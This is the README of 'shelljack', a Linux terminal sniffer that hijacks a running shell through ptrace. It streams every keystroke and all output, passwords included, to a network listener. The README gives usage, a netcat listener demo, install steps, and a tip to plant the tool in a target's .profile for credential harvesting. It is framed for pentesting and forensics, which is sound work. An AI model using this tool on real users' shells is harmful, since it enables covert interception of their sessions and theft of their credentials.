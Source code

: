 # shelljack #

_shelljack_ is a [Linux](http://en.wikipedia.org/wiki/Linux) [terminal](http://en.wikipedia.org/wiki/Computer_terminal) sniffer.

**What is a "terminal sniffer"?**

A terminal sniffer is a piece of software that inspects user [I/O](http://en.wikipedia.org/wiki/I/o) as it crosses the terminal. This is similar to a [keystroke logger](http://en.wikipedia.org/wiki/Keystroke_logging), but in addition to reporting all of the keystrokes put into the terminal, _shelljack_ also reports all of the data returned back out through the terminal.

**Is it a [kernel module](http://en.wikipedia.org/wiki/Kernel_module)?**

No. _shelljack_ works entirely in [user space](http://en.wikipedia.org/wiki/User_space).

**What is "shelljacking"?**

This is the term I use to describe a very specific type of terminal sniffing attack. _shelljack_ performs a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudo_terminal) [mitm attack](http://en.wikipedia.org/wiki/Man-in-the-middle_attack). It was designed to be used against a [session leader](http://linux.die.net/man/7/credentials), which usually means a users [shell](http://en.wikipedia.org/wiki/Unix_shell). It's also important to note that a successful shelljacking means you are now embedded in the traffic flow between user and their shell. *You will be sniffing all of the traffic down the line, including child processes and ssh sessions to other hosts!*

**That's awesome! [1337 h4X0rZ rUL3!!](http://hackertyper.com/)**

While I do think it's pretty neat, this really isn't ["hacking"](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29). There are no exploits here. _shelljack_ takes advantage of Linux [deep magic](http://lxr.linux.no/#linux+v3.9.6/kernel/ptrace.c) that, while often not well understood, is completely legitimate. In order to shelljack a target, you will need the appropriate permissions to do so. 

While this may not be a "[sploit](http://en.wikipedia.org/wiki/Sploit)", it is a very handy tool designed to empower [pentesters](http://en.wikipedia.org/wiki/Pentester), [forensic analysts](http://en.wikipedia.org/wiki/Computer_forensics), and educators.

**Do I need to be root to use it?**

No. You need "appropriate permissions" in order for it to work. That means you will either need to be root, or the uid of the target process. 

**When would I ever need this?**

* As a pentester who has gained execution as a user, you can now shelljack that user for further reconnaissance and credential harvesting.
* As a forensic analyist, you can eavesdrop on the user who is the target of your investigation (after you've recieved the appropriate authority to do so from the heads of Security, Legal, and HR, of course.)
* As a sysadmin, or other educator, to publicly demonstrate why sane file permissions are important. 

**How does it work?**

_shelljack_ is a [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses ptrace to insert itself between the shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**Tell me more of this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

[ptrace](http://en.wikipedia.org/wiki/Ptrace):
ptrace is the debugging interface provided by the Linux kernel. It's wonderful at forcing you to *really* understand the inner workings of a Linux process when you try to use it. The best intro I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

[tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29):
A solid understanding of tty fundamentals is necessary to fully understand and leverage the [command line](http://en.wikipedia.org/wiki/Command_line). This is also a needed skill set for understanding shelljacking. The best tutorial on this topic is easily [The TTY demystified](www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Since _shelljack_ uses the Linux ptrace interface to inject syscalls into a target process using their assembly form, nothing here is portable. That said, check out my other project, [_ptrace_do_](https://github.com/emptymonkey/ptrace_do). If I get around to supporting _ptrace_do_ for other architectures, then porting _shelljack_ shouldn't be too hard.

# Usage #

	empty@monkey:~$ shelljack --help
	usage: shelljack LISTENER:PORT PID
		LISTENER:	Hostname or IP address of the listener.
		PORT:	Port number that the listener will be listening on.
		PID:	Process ID of the target process.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Netcat](http://en.wikipedia.org/wiki/Netcat) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use any [address](http://linux.die.net/man/3/getaddrinfo) that the machine will route.)

Let's do a demo. I'll be running [tty](http://linux.die.net/man/1/tty) in these examples to demonstrate which terminal I'm running various commands in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ while [ 1 ]; do ncat -l localhost 9999; done

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3

Now, launch shelljack against the target pid:

	empty@monkey:~$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack localhost:9999 19716

Back at the listener, you will now see all the I/O in real time as the user interacts with the shelljacked shell. For further evidence of this, lets go examine the target shell again:

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 shelljack localhost 9999 19716

We can see that _shelljack_ has successfully taken over /dev/pts/3, and is serving up /dev/pts/4 for the target shell to consume. It's now in place to mitm the traffic, happily forwarding you a copy of everything it sees, including the input which normally wouldn't be ["echoed"](http://linux.die.net/man/1/stty) to the terminal (e.g. passwords).

Also note, _shelljack_ was designed with the ability to attack the shell that is calling it. This makes it ideal for launching it out of the targets login [configuration files](http://en.wikipedia.org/wiki/Unix_shell#Configuration_files_for_shells). (e.g. .profile)

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

# Prerequisites #

To help with the heavy lifting, I've written two supporting libraries that are both needed by _shelljack_:

* [_ptrace_do_](https://github.com/emptymonkey/ptrace_do): A ptrace library for easy syscall injection in Linux.
* [_ctty_](https://github.com/emptymonkey/ctty): A library and tool for discovering and mapping Controlling TTYs in Linux.

In addition, I've also written another tool that isn't needed by _shelljack_, but helps with tty forensics. 

* [_dumb_](https://github.com/emptymonkey/dumb): A simple tool for stripping control characters and escape sequences from terminal output in Unix/Linux.

# Installation #

	git clone git@github.com:emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..

	git clone git@github.com:emptymonkey/ctty.git
	cd ctty
	make
	cd ..

	git clone git@github.com:emptymonkey/shelljack.git
	cd shelljack
	make

# Limitations #

As noted in the [tty_ioctl](http://linux.die.net/man/4/tty_ioctl) [manpage](http://en.wikipedia.org/wiki/Manpage), an existing process can only switch controlling ttys if it is a session leader. Because of this, while _shelljack_ will be successful against the shell itself, any *existing* child processes will not be able to switch with it. They won't usually die during the shelljacking, but their I/O will act strangely if it relies on the tty. It is best to target shells that are semi-idle, or attack them during the login process.

